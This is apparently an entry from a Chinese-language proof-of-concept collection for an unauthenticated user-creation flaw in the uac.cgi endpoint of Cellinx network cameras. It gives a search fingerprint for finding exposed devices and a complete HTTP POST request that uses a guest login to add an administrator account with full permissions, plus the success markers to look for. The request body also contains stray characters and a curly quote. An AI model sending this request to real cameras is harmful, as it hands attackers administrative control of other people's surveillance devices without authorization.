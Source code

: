 ﻿# cellinx 摄像机 uac.cgi 存在未授权添加用户漏洞。

> 更新时间：2024-01-17

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：body="local/NVT-string.js"

> 验证脚本：HTTP

```
POST /cgi-bin/UAC.cgi?TYPE=json HTTP/1.1
Connection: close
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip


{"jsonData": {"username":"guest","password":"","option":"add_user", "data":{"username":"dudesuite","password":"dudesuite","r
permission":{"is_admin":"1","view":"1","ptz":"1","setting":“1","dout":"1"}}}}
```

> 响应代码特征：200

> 响应内容特征：Success

> 上传文件定位：


> 验证文件来源：cellinx 摄像机 uac.cgi 存在未授权添加用户漏洞。.poc

